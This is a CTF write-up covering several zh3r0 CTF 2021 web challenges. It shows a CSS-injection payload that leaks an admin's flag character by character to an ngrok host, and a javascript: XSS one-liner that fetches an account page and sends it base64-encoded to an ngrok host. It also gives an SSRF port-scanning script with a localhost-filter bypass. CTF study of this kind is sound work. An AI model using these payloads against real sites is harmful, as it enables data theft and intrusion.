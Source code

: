 # Web challenge write-ups

Combining these web challenges into one document since I don't feel like
making  
detailed write-ups.

## Flags

**Category**: web \  
**Solves**: 20 \  
**Points**: 871 \  
**Author**: navy

Here is a website where each user gets a flag. However, only the admin has the  
correct flag. Can you guess it?

Mirror 1 - http://web.zh3r0.cf:4444 \  
Mirror 2 - http://web.zh3r0.cf:4321 \  
Download - [Flags.tar.gz](Flags.tar.gz)

### Solution

> Solved with @anirudhb, who did most of the work

```ejs  
       <meta http-equiv='Content-Security-Policy' content="script-src 'nonce-<%=bytes%>'; object-src 'none'; base-uri 'none'require-trusted-types-for 'script'; frame-src 'none'">  
...  
       <div class="flagDisplay">  

Your flag is

  
           <%- flagProfile %>  
       </div>  
       <div class="form">  
           <form action="/check" method="post">  
               <fieldset>  
                   <legend>Check if your flag matches the admin's</legend>  
                   <div class="flag">  
                       <input type="flag" name="flag" value="<%= flag %>">  
                   </div>  
                       <button type="submit" name="submit" value="submit">Check</button>  
               </fieldset>  
           </form>  
```

We have reflected HTML in `flagProfile`. Our goal is to exfiltrate the admins  
flag from

```ejs  
<input type="flag" name="flag" value="<%= flag %>">.  
```

Script execution is blocked by CSP, but we can inject CSS to leak characters  
one by one:  
```html  
<style>  
.flag { display: block !important; }  
input[value^="zh3r0{a"] { background-image:
url(http://d92615501434.ngrok.io/a); }  
input[value^="zh3r0{b"] { background-image:
url(http://d92615501434.ngrok.io/b); }  
input[value^="zh3r0{c"] { background-image:
url(http://d92615501434.ngrok.io/c); }  
...  
input[value^="zh3r0{8"] { background-image:
url(http://d92615501434.ngrok.io/8); }  
input[value^="zh3r0{9"] { background-image:
url(http://d92615501434.ngrok.io/9); }  
input[value^="zh3r0{_"] { background-image:
url(http://d92615501434.ngrok.io/_); }  
input[value^="zh3r0{{"] { background-image:
url(http://d92615501434.ngrok.io/%7B); }  
input[value^="zh3r0{}"] { background-image:
url(http://d92615501434.ngrok.io/%7D); }  
</style>  
```

Unfortunately the challenge organizers really messed up the infra on this one.  
I would constantly be logged out for no reason, making it annoying to test the  
exploit. Also why did they have to make the flag so long?  
```  
zh3r0{this_is_a_flag_02b0482ec93d9f5688d5e0562fc2e2db}  
```

Solve script in `flags_solve.py`

## Original Store

**Category**: web \  
**Solves**: 22 \  
**Points**: 842 \  
**Author**: DreyAnd

Hi! Check out our car dealership platform - the Original Store at  
[Store](http://35.200.166.215:5555/). We also have a contest running right now  
and who has the best car wins! You can send us your car's images at  
[bot](http://35.200.166.215:5556/).

## Solution

Sourceless XSS challenge. After some 20 min of guessing I found an unintended
solution

```  
javascript:fetch('/account.php').then((r)=>r.text()).then((r)=>window.location.href='http://abca940c718f.ngrok.io/'+window.btoa(r))  
```

```  
zh3r0{4dm1n_l0ves_0nly_0r1g1n4ls_br0}  
```

For reference,  
[Carmen San
Diego](https://gist.github.com/bluepichu/6898d0f15f9b58ba5a0571213c3896a2)  
from [PlaidCTF 2021](https://ctftime.org/event/1199) had the same unintended  
solution.

> Author's intended solution: https://dreyand.github.io/zh3r0-ctfv2/original-
> store/

## Original Store v2

**Category**: web \  
**Solves**: 20 \  
**Points**: 871 \  
**Author**: DreyAnd

## Overview

Exactly the same as the previous one, except now the cookie is `HttpOnly:  
true`. Fortunately(?) this doesn't fix the unintended solution:

## Solution

```  
javascript:fetch('/account.php').then((r)=>r.text()).then((r)=>window.location.href='http://abca940c718f.ngrok.io/'+window.btoa(r))  
```

```  
zh3r0{4dm1n_h4tes_car_st34l3rs_br0}  
```

## Baby SSRF

**Category**: web \  
**Solves**: 40 \  
**Points**: 453 \  
**Author**: ZyperX

Yet another server challenge :)

Link - http://web.zh3r0.cf:6969

## Solution

> Solved with @anirudhb

Weird challenge with no source provided. There's a page where you can request
a  
URL and get the headers returned. For some reason `localhost` is blocked, but  
that's easily bypassed using `http://localtest.me` or a 302 redirect.

We guessed that we had to scan ports on `localhost` and the flag would  
magically appear in the header.

Unfortunately, my connection is super slow so I just rented a VPS in India  
which scanned 5000 ports in under a minute:

```python  
import requests  
import sys

chall_url = "http://web.zh3r0.cf:6969"  
redir_url = "http://localtest.me"

def check_port(port: int):  
   data = {"url": f"{redir_url}/{port}"}  
   res = requests.post(f"{chall_url}/request", data)  
   return res.text

start = int(sys.argv[1])  
end = int(sys.argv[2])

for port in range(start, end):  
   print(f"[*] Checking port {port}")  
   html = check_port(port)  
   if "Learn about URL" not in html:  
       print(f"[+] Found something on {port}")  
       print(f"[*] HTML: {html}")  
       open(f"port_{port}.txt", "w").write(html)  
```

Turns out the port was 9006.

```  
zh3r0{SSRF_0r_wh4t3v3r_ch4ll3ng3}  
```  

Original writeup
(https://github.com/qxxxb/ctf/tree/master/2021/zh3r0_ctf/web#flags).